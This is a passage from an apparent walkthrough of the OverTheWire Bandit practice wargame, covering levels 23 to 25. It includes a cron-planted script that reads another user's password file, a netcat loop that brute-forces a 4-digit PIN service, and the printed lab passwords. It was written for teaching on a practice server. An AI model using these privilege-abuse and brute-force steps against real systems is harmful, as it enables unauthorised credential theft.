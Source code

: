 ```bash
$ chmod 666 /tmp/chicken
$ vi /tmp/get_pass.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/chicken

# 不加可执行位还跑什么脚本！(╬ΦдΦ)
$ chmod +x /tmp/get_pass.sh
$ cp /tmp/get_pass.sh /var/spool/bandit24
# One minute later
$ cat /tmp/chicken
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

$ rm /tmp/chicken
```

### Level 24

A daemon is listening on port 30002 and will give you the password for bandit25 if **given the password for bandit24 and a secret numeric 4-digit pincode**. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```bash
$ ssh bandit24@bandit.labs.overthewire.org -p 2220

$ mkdir /tmp/chicken
$ cd /tmp/chicken
$ vi bruteforce.sh
#!/bin/bash
if [[ -e bruteforce.txt ]]; then
    rm bruteforce.txt
fi
for i in $(seq -w 0 9999)
do
    echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> bruteforce.txt
done
nc localhost 30002 < bruteforce.txt | grep -v Wrong

$ chmod +x bruteforce.sh
$ ./bruteforce.sh
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
$ cd
$ rm -r /tmp/chicken
```

### Level 25

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.
